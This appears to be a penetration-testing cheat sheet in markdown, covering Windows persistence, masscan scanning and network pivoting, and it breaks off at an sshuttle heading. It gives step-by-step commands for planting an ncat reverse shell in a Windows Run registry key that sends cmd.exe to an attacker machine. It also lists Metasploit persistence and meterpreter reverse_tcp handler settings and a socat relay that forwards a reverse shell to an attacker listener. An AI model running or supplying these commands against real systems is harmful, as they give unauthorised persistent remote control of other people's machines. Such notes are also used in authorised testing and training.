 ### Lookups

```
whois

dig -x <ip address> 
dig <address>
```

## Persistance

Save malware (ncat reverse shell) in windows

```
computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\
```

right click new > string value
wincofig
click on and enter
``` "abosulte path to malware <ip address of attacking machine> <listening port> -e cmd.exe" ```

on attacking machine 
```
ncat -l -p <listening port>  -v
```
or using metasploit

```
use exploit/windows/local/s4u_persistence

set session <session numer with meterpreter>
set trigger <logon etc>
set payload windows/meterpreter/reverse_tcp
set LHOST <lhost>
set LPORT <listening port>
exploit

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <lhost>
set LPORT <listening port>
exploit
```


## MASSCAN

```
masscan -p <common ports> -Pn --rate=800 --banners <ip/subnet mask> -e <interface> --router-ip <ip of router>
masscan -p <common ports> -Pn --rate=800 --banners <ip/subnet mask> -e <interface> --router-ip <ip of router> --echo > <name_of_config_file.conf>

config file set up
add output-filename = scan.list
```

## Pivioting

socat sending a reverse shell from target to attacking machine through a relay.

```
./socat tcp-l:<listening_port> tcp:<attacking_IP>:<attacking_port> & (on relay machine)
nc -lvnp <attacking_port> (on attacking machine)
```

sshuttle (tunnelled proxy)
```